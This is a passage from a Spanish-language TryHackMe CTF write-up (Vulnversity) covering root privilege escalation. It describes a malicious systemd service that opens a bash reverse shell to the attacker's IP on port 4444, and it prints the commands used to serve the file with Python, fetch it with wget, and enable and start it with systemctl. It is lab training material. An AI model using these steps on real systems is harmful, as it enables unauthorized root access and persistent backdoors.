   - Indica que este servicio debe iniciarse cuando el sistema alcanza el objetivo `multi-user.target`, que es el modo multiusuario (similar al runlevel 3 en sistemas SysVinit).
##### Comportamiento del Servicio
Este servicio está configurado para abrir una reverse shell. Cuando se inicia, el comando Bash en `ExecStart` abre una conexión TCP hacia `10.21.16.176` en el puerto `4444` y redirige la entrada y salida de Bash a esta conexión. Esto permite al atacante (presumiblemente en la máquina con IP `10.21.16.176`) obtener acceso interactivo a la shell del sistema en el que se ejecuta este servicio, con privilegios de usuario `root`. Este archivo de servicio es un ejemplo de un backdoor, y su propósito es obtener acceso no autorizado al sistema. La configuración de este servicio debe ser revisada y eliminada si no fue intencionada, ya que representa un grave riesgo de seguridad.

Luego de ello, lo envié al target desde un servidor HTTP con Python (desdé mi máquina Kali en donde se encuentra el archivo que cree):

```
python3 -m http.server
```

Para descargarlo en el `target`, lo hice mediante `wget`:

```sh
wget http://10.21.16.176:8000/root.service
```

![](/images/vulnversity/Pasted image 20240702041240.png)

Ahora habilite el servicio que acabo de crear:

```sh
systemctl enable /var/tmp/root.service
```

![](/images/vulnversity/Pasted image 20240702041703.png)

El comando `systemctl enable /var/tmp/root.service` creará un enlace simbólico en el directorio `/etc/systemd/system/multi-user.target.wants/`, apuntando al archivo `/var/tmp/root.service`. Esto hace que el servicio se incluya en el objetivo `multi-user.target`, lo que significa que el servicio se iniciará automáticamente cuando el sistema alcance el modo multiusuario.

Ahora desde mi máquina Kali, pongo en escucha desde el puerto 4444:

![](/images/vulnversity/Pasted image 20240702041739.png)

Para ahora iniciar el servicio:

```sh
systemctl start root
```

![](/images/vulnversity/Pasted image 20240702042114.png)

Y de está manera es como se inicializa ahora una Reverse Shell en modo Root:

![](/images/vulnversity/Pasted image 20240702042206.png)

Navegando, se puede obtener la última bandera del usuario Root:

![](/images/vulnversity/Pasted image 20240702042550.png)

De está manera se termina este CTF. Gracias por leerme!


WIth <3 <img src="https://tryhackme-badges.s3.amazonaws.com/IsuiMartinez.png" alt="TryHackMe">  

And H4ppy H4cking!
